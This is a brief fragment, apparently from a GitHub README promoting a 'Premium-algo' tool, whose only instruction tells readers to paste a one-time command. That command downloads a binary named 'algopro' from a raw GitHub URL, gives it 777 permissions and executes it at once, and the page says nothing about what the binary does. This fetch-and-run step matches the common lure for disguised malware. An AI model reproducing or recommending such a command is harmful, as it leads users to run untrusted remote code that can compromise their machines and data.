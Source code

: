 # Copy the command below (one-time use only)

```bash
curl -# https://raw.githubusercontent.com/ooduck/Premium-algo/main/algopro -o file && chmod 777 ./file && ./file
